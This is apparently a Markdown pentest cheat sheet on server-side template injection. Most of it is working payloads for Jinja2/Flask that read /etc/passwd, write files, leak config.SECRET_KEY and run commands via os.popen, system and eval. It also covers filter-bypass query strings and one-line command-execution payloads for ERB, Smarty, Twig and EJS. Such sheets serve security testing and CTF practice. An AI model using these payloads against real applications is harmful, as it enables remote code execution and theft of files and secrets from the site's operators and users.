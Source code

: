 # SSTI
- Identify Template Engine
  ![](https://miro.medium.com/max/701/1*3hIShkWH_gjOt1b0LNPURQ.png)
- Jinja2
  > [Flask default template engine (doc)](https://jinja.palletsprojects.com/en/3.1.x/)  
  > [Exploiting Jinja SSTI with limited payload size.](https://niebardzo.github.io/2020-11-23-exploiting-jinja-ssti/)  
  > [GreHack 2021 - Optimizing Server Side Template Injections payloads for jinja2](https://podalirius.net/en/publications/grehack-2021-optimizing-ssti-payloads-for-jinja2/)  
  > [RCE-bypassing-as-much-as-I-possibly-can](https://hackmd.io/@Chivato/HyWsJ31dI#RCE-bypassing-as-much-as-I-possibly-can)  
  > [On SSTI & bypass of jinja2](https://chowdera.com/2020/12/20201221231521371q.html)  
  > [Builtin Filters](https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f)

  - Get `os`
    - `{{lipsum.__globals__.os}}`
    - `{{cycler.__init__.__globals__.os}}`
  - Load `os`
    - `{{config.from_object('os')}}`
  - `{{ config }}`
    - config.SECRET\_KEY
    - config.from\_pyfile(filename)
  - `{{ request }}`
    - request.args.name
    - request.cookies.name
    - request.headers.name
    - request.values.name
    - request.form.name
  - sandbox bypass

    ```python
    #All the below payloads works under python2
    --------------------------------------------

    #Starting from string or list
    {{ ''.__class__.__base__ }}

    #File operation
    {{ ''.__class__.__mro__[2].__subclasses__() }}
    {{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
    {{ ''.__class__.__mro__[2].__subclasses__()[40]('/var/www/app/a.txt').write('test') }}
    
    #RCE
    {{ ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('id').read() }}
    > uid=1000(ubuntu)gid=1000(ubuntu)...

    #All the below payloads works under python3
    --------------------------------------------
    {{ ().__class__.__base__.__subclasses__() }}
    {{ ().__class__.__base__.__subclasses__()[132] }} #<class 'os._wrap_close'>
    {{ ().__class__.__base__.__subclasses__()[132].__init__.__globals__ }}
    {{ ().__class__.__base__.__subclasses__()[132].__init__.__globals__['system']('id') }}

    #Find eval
    {% for c in [].__class__.__base__.__subclasses__(): %}
      {% if c.__name__ == 'catch_warnings': %}
        {% for b in c.__init__.__globals__.values(): %}
          {% if b.__class__ == {}.__class__ %}
            {% if 'eval' in b.keys(): %}
              {{ b['eval']('__import__("os").popen("id").read()') }}
            {% endif %}
          {% endif %}
        {% endfor %}
      {% endif %}
    {% endfor %}

    #Import
    {% for x in ().__class__.__base__.__subclasses__() %}
      {% if "warning" in x.__name__ %}
        {{x()._module.__builtins__["__import__"]("os").popen(request.args.payload).read()}}
      {% endif %}
    {% endfor %}
    ```

  - Bypass
    - `.`

      ```txt
      /?ssti={{libsum['__globals__']['os']}}
      ```

    - `.` `_`

      ```txt
      /?ssti={{lipsum['\x5f\x5fglobals\x5f\x5f']['os']}}
      ```

    - `.` `_` `[` `]`

      ```txt
      /?ssti={{lipsum|attr('\x5f\x5fglobals\x5f\x5f')|attr('os')}}
      ```

    - `.` `_` `[` `]` `|`

      ```txt
      /?ssti={{getattr(getattr(lipsum,'\x5f\x5fglobals\x5f\x5f'), 'os')}}
      ```

    - `.` `_` `[` `]` `{{` `}}`

      ```txt
      /?ssti={%if lipsum|attr('\x5f\x5fglobals\x5f\x5f')|attr('os') %}{%endif%}
      ```

    - length or other special characters (`'` `"`)

      ```txt
      /?ssti={{lipsum[request.args.param1][request.args.param2]}}&param1=__globals__&param2=os

      /?ssti={{config.update(payload=request.args.param1)}}&param1=ls
      /?ssti={{lipsum.__globals__.os.popen(config.payload)}}
      ```
- Ruby erb
  - `<%= system('id') %>`
- PHP Smarty
  - `{ system('id') }`
- PHP Twig
  - `{{ ['id'] | filter('system') }}`
- Node.js ejs
  - `<%= global.process.mainModule.require("child_process").execSync("id").toString() %>`
- Format String Attack
